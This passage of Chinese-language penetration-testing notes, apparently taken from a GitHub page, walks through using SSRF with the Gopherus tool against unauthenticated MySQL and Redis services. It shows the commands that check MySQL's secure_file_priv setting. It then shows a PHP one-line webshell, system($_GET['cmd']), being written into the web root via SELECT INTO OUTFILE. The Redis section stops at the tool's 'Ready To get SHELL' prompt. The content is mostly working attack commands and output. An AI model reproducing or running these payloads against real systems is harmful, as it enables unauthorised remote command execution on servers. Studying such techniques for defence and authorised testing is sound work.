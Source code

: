 # 12.SSRF进行mysql未授权文件写入

查看是否有写入权限，查看secure_file_priv函数

```
 python2 gopherus.py --exploit mysql  


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: show variables like '%secure%'
```

写入一句话木马

```
python2 gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select "<?php system($_GET['cmd']);?>" into outfile '/var/www/html/cmd.php';
```

# 13.SSRF对redis未授权webshell写入

默认端口：6379

```
python2 gopherus.py --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Ready To get SHELL

```